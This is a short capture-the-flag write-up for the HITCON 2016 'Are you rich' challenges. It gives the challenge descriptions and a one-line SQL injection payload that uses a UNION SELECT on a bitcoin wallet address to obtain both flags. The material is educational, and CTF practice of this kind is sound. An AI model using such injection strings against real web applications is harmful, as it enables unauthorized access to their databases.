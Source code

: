 #hitcon 2016 : Are you rich 1 and Are you rich 2
Solved by illustris
##Challenge

###Are you rich?
```
249 Teams solved.
Description
Are you rich? Buy the flag!
http://52.197.140.254/are_you_rich/
ps. You should NOT pay anything for this challenge
Some error messages which is non-related to challenge have been removed
Hint
None
```

###Are you rich 2 ?
```
117 Teams solved.
Description
Are you rich? Buy the flag!
http://52.197.140.254/are_you_rich/
ps. You should NOT pay anything for this challenge
Some error messages which is non-related to challenge have been removed
Hint
None
```

##Solution
I looked up the richest bitcoin wallet. As of when I wrote this, it was
>https://bitinfocharts.com/bitcoin/address/3Nxwenay9Z8Lc9JBiywExpnEFiLp6Afp8v

Both flags can now be obtained by SQL injection
>3Nxwenay9Z8Lc9JBiywExpnEFiLp6Afp8v' UNION SELECT '3Nxwenay9Z8Lc9JBiywExpnEFiLp6Afp8v';#